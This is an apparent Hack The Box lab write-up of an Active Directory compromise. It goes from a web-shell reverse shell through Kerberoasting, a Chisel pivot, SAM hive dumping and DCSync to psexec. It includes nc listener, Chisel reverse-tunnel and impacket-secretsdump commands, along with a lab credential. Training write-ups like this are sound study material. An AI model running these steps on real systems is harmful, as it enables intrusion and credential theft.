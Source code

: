 Notice, referred to writeups several times for the first few questions and also HTB forum

1. Go to http://IP/uploads/antak.aspx
2. Go to revshell and use the PowerShell Base64 reverse shell
3. Setup `rlwrap nc -nvlp 4242`
4. Paste and run the reverse shell from revshell in the web application
5. nc provides me with a cmd session on the victim machine (initial foothold, calling this victim A)
6. Just needed to go to the Admin's desktop folder to answer question 1
7. For the next question, kerberoasting MSSQLSvc, I brought in PowerView from my attack host to victim A machine. This is done by using setting up a HTTP Server at my attack machine using `python3 -m http.server` and then use `curl` in the revers shell session. (Referred to writeup here, mainly to get the idea of setting up a reverse shell, I initially only focused on the web application).
8. With PowerView, I ran the PowerView commands in my Obsidian Kerberoasting notes. Just followed the instructions there and can get the Kerberos TGS, but one issue, the output at the CLI is cut off. Tried to save it to clipboard, still cut off; tried to save to a text file, still cut off; so I saved it as a CSV file (referred to writeup here, actually already had it in my notes, but didn't try it because in notes, it was for saving for all found users instead of targeted users, should just try it next time).
9. Once gotten the Kerberos TGS for user `svc_sql` (the SAM Account Name for MSSQLSvc), cracked it using `hashcat`.
10. This credential is usable for MS01.inlanefreight.local, but I am not directly connected to it, MS01 IP is 172.16.6.50, victim A IP is 172.16.6.100. So here need to pivot. (Confirmed the idea of pivoting from HTB FORUM, when I was doing I had guessed might needed pivoting but I wasn't motivated to do pivoting, unless really really need to. Checked the writeups, they did pivoting also)
11. To do the pivoting, I use `Chisel`, need to setup reverse pivoting because need to RDP to MS01. So commands are:
- In Kali machine: `sudo chisel server --reverse -v -p 1234 --socks5`
- In victim A: `./chisel.exe client -v 10.10.16.8:1234 R:socks`
- `10.10.16.8` is my Kali HTB VPN IP
- `chisel.exe` is transferred to victim A using the same python HTTP server method
12. Once pivot is set up, used proxychains to RDP into MS01 machine, creds are the one for `svc_sql`.
13. Went to the Administrator's desktop to get the flag.
14. Next question asked for cleartext credentials for another domain user, checked the Users folder, other users consist of lab_adm, tpetty and Administrator (we already ahve Administrator)
15. Tried `LaZagne.exe` but returned no results
16. Since we have admin privileges, tried saving the SAM, SYSTEM, and SECURITY hives, and can save, so saved them then transferred to Kali attack machine (connected the Kali directory to the MS01 via `xfreerdp /drive` feature, basically something like `net use N: \\smb\share`)
17. Cracked the SAM hives, can got a cleartext password, belonged to tpetty.
18. Next question asked what kind of attack can tpetty do, so again, imported PowerView, checked tpetty's ACL (Command in Obsidian Scanning & Enumeration note)
19. tpetty can do DCsync attack
20. Tried mimikatz, failed first time, ran `runas.exe /netonly` with tpetty creds and then tried mimikatz again, still failed. Went back to Kali machine and then used proxychains with impacket-secretsdump and can perform dcsync attack. Command below:
- `proxychains impacket-secretsdump INLANEFREIGHT.LOCAL/tpetty:'Sup3rS3cur3D0m@inU2eR'@DC01.INLANEFREIGHT.LOCAL -just-dc`
- Initially, I put the target domain/IP as MS01, but didn't work, figured out that we're targeting the final machine, which is DC01, so changed the target IP to DC01 and it worked!
- Why I didn't use the IP behind `@` at the impacket-secretsdump command? Because I don't know DC01, so I gambled on the MS01 have DNS entries to resovle the DC01 name to the correct IP address
21. Got a different administrator hash, checked that new administrator hash with `proxychains nxc` and it worked.
22. Check the hash again for rdp, didn't work, so straight go do `impacket-psexec`, got a shell, got the final flag.
